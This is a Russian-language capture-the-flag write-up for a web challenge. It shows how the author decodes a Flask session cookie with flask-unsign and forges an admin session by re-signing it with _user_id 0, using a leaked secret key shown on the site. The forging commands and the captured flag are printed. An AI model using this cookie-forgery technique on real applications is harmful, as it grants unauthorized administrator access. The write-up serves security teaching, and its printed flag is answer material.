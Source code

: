Ещё один сайт с сигнами от админа

url: [http://outdated:8002/](http://outdated:8002/)


### Writeup

В описании сказано, что админ раздаёт свои подписи. После регистрации аккаунта и входа в систему на главной странице можно увидеть подпись админа. Запомним это.

Welcome, dear friend! Here is your sign: 4DM1N_L0v3S_Y0U_V3RY_MUCH,4LL_TH3_B3St

После первичного анализа функциональности сайта понимаем, что точек входа здесь очень мало. Одна из них - куки.

Сервер использует фласк-сессии, которые можно декодировать например, с помощью flask-unsign.

```console
nti@contest:~$ flask-unsign -c ".eJwljjluwzAQAP_C2sVeFLn-jMC9kMBAAkh2ZfjvEZBiiplq3m2vI8-vdn8er7y1_TvavfVUX6uLr5o2cACJc4KRV8cpPGUCkxmKusOixA681HVU0KzM4DSIcmWfxR5KESqEbGa1SMZFbmCdYiio1NhmkU_uUC6rXSOvM4__G7zUz6P25-8jf66wmMK3hEIpUzckVeMgcmLAYuq0VS5qnz9thUBD.Ybn6mg.ovlSskaH6j4sUMU97pN6TcLttFA" --decode
{'_fresh': True, '_id': '5e9caa54caf8b717024c3e0b2cf51843848032bb149cc0a2e1503a9c97fd28feed3eb0dfc93c8f3cd92dd94213bbbfa247a24e60b52d79094f768f2c8350fc4a', '_user_id': '1', 'csrf_token': 'a32dc6e0f14fb9cb1299b3d22c2301f32526fea2'}
```

Видим, что сессия имеет параметр _user_id. Приходит идея поменять _user_id на 0, что бы попробовать вклиниться в сессию администратора, но для генерации собственной фласк-сессии её нужно подписать секретным ключём. Попробуем сделать это с помощью подписи администратора и утилиты flask-unsign

```console
nti@contest:~$ flask-unsign -s --cookie '{"_user_id": "0"}' --secret "4DM1N_L0v3S_Y0U_V3RY_MUCH,4LL_TH3_B3St"
eyJfdXNlcl9pZCI6IjAifQ.YboDew.nmxZ057PPpdBPyA06uX2NIhEhGo
```

Подставим новую сессию, например, через консоль разработчика в браузере, и обновим страницу

После этого произойдёт автоматический редирект на страницу /admin с флагом

flag{K33p_Y0UR_FL4SK_S3CR3TS_1N_S3CR3T}
